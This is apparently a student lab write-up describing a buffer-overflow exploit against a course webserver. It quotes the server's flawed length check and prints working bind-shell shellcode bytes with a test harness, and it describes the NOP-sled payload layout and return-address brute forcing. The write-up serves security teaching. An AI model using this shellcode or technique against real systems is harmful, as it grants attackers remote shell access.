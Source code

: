 
Simple Buffer-overflow Attack
Group members: Yubo Tian (yt65), Pengyi Pan (pp83), and Chun Sun Baak (cb276)

Overview:

This assignment aims to compromise a Linux webserver (cps110.cs.duke.edu:8097) running buggy code using buffer-overflow attack. In this document, we will describe the our steps, thought process, the obstacles we faced, and the means to address them that eventually led us to successfully compromise the webserver.

Step 1: Find the vulnerable point in the webserver code

First, we discovered a vulnerable point in the server’s code regarding bound-checking of a buffer. Specifically, filename[100] is declared as a char[100] in the webserver code, and although there is a bound-checking algorithm that seemingly checks whether the input to filename is smaller than or equal to 100 bytes, its method has a loophole that allows us to inject a string longer than 100, thus effectively overwriting the return address. Specifically, while the actual “length” variable has the type int, in the check function, it is casted into the type unsigned char, whose size is smaller than int. In doing so, the length is illicitly truncated--by gaming this blind spot, we are able to pass the test with an input string that is longer than 100: we just need to make sure that the binary representation of the integer’s right-most eight digits is less than 100, which is 01100100 in binary. Thus, we made sure that the length of our input fits in one of the range (0-100; 256-356; 778-868). 

Here is the part in the server code where vulnerability exists.

char filename[100];
typedef unsigned char byte;
int len = (int) (end - start);
if (check_filename_length(len))
strncpy(filename, start, len);
else
return NULL;
int check_filename_length(byte len) {
if (len < 100)
return 1;
return 0;
}

Step 2: Create shellcode

After locating the part of the code in which to inject our code in step one, we then started working on a shellcode whose functionalities would help us compromise the host machine. We basically need the shellcode to perform two functions: connect our machine to the victim, and open a shell for us. 

We built our own shellcode based on the idea from the following resource. 
[Source: http://shell-storm.org/shellcode/files/shellcode-357.php]

We created two sets of shellcode doing two different things that was later on combined together. port.c is the source c file that can open a port and redirect the stdin/stdout/stderr to the port. shell.c is the source c file that can spawn a shell. The reason we separated the two functions into two c files is because modularity makes testing and changing assembly code easier.

Compiling the two files and using gdb (disas), we get the assembly code for the two source codes. The cleaned assembly code of the two c files are port.asm (hex opcode with assembly as comments on the side) and shell.asm (assembly file) respectively. Noticeably, when creating port.asm and shell.asm, we followed the provided tutorial to remove NULL and unnecessary steps, and use ‘jump call’ to dynamically retrieve the memory address of string ‘bin/sh/’.

Using nasm to compile the .asm files, we get two hex opcode that are concatenated into our final shellcode, which is in file final_shellcode.c. This shellcode, when injected to the host machine, promises to do the following. First, it opens port number 5074, and makes the host machine listens on the port. By doing so, our server can connect to that machine using that port, allowing us to directly communicate to that machine. Moreover, the shellcode, contains dup2() syscall that effectively puts the control of the remote host’s stdin, stdout, and stderr in our hands. Finally, the shellcode contains execve syscall and in so doing spawns a shell.

Step 3: Test the shellcode using a basic test

Before anything, we made sure that the shellcode works when we run it on face value (without needing any buffer-overflow attack). After obtaining the op-codes of the shellcode from the resource above, we tested the shellcode using the c code below (which was also available in the above source). The shellcode worked when tested.

To compile: gcc -m32 -z execstack -fno-stack-protector final_shellcode.c -o final_shellcode

char shellcode[] = "\x31\xc0\x50\x40\x89\xc3\x50\x40\x50\x89\xe1\xb0\x66\xcd\x80\x31\xd2\x52\x66\x68\x13\xd2\x43\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd\x80\x40\x89\x44\x24\x04\x43\x43\xb0\x66\xcd\x80\x83\xc4\x0c\x52\x52\x43\xb0\x66\xcd\x80\x93\x89\xd1\xb0\x3f\xcd\x80\x41\x80\xf9\x03\x75\xf6\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42";  

int main(int argc, char **argv) { 	
int (*func)();  	
func = (int(*)()) shellcode; 	
func(); 
}


Step 4: Test the buffer-overflow attack locally

Now that we have the message to be sent, we simulated the buffer-overflow attack by opening the webserver’s code in our local host, and made sure that the shellcode correctly worked when we injected it to our local host through buffer overflow. 

Since our shellcode is longer than 100 bytes (which is the length of the buffer filename) and we suspect that the RET is not far away from the buffer, we cannot put the “NOP slide” in front of our shellcode as in the example from one of the readings. Instead, we put 300 bytes of return address at the front and made sure that they can cover the RET. After that we put 440 NOPs followed by the actual shellcode. The idea here is that we need to make sure the RET is successfully over-written and our “NOP slide” is big enough to shorten the process of finding the address in the server, and at the same time, not exceeding the maximum acceptable length in the server code(1024 bytes).

Step 5: Scan for the correct address

Finally we came to the point where we are ready to go. Before that however, since we did not know the exact address of the buffer filename nor our “NOP slide” in this case, we had to guess until we got it correctly. Using the hints given on Piazza, we successfully narrowed down the possible address range to a moderate size, but testing all the addresses in that range manually was still a pain.

In order to do this tedious job, we created an attack_generator.c program that takes the address guessed as input and output our attack string. Combining with the bash script we wrote find_return_address.sh, we were able to locate a possible return address that we can use 0xBFFFFE88.

Step 6: Launch the attack

The following is purely FUN.









This document was last modified on March 30, 2015

